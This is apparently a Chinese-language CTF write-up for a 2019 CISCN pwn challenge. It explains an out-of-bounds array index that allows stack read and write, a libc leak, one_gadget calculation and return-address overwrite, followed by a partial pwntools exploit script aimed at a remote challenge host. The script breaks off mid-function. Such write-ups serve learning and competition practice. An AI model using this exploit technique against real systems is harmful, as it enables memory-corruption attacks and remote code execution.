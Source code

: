 ![2019-ciscn-1](./img/2019-ciscn-1.png)

数组下表越界导致栈空间任意地址读写
![2019-ciscn-2](./img/2019-ciscn-2.png)

读取栈上libc_start_main地址，得出是libc2.23-ubuntu11
泄露libc版本，计算基址，计算one_gadget，然后填写函数返回地址
```python
#!/usr/bin/env python2

from pwn import *
#from FILE import *

#context.log_level = 'debug'
context.terminal = ['terminator', '-e']
context.arch = ['amd64','x86_32'][0]

###############################################################################
#                                   CONFIG
###############################################################################
filename = "./pwn"
glibc_version = '2.24'
 
address = {'address': '39.97.228.196', 'port': 60007}
###############################################################################
#                                  LOAD ELF
###############################################################################
elf = ELF(filename)
libc = ELF('/home/{}/libc.so.6'.format(glibc_version))
###############################################################################
#                               Fancy attach -3-
###############################################################################
def attach(p, breaks=[]):
    if args['REMOTE']:
        return
    gdb.attach(p, '\n'.join(["b *%s"%(x,) for x in breaks]))
###############################################################################
if args['REMOTE']:
    p = remote(address['address'], address['port'])
else:
    p = process([filename])
###############################################################################

def leak(index,to_write=0):
    value = 0
    for i in range(0,7):
        p.sendlineafter('index\n',str(index+i))
```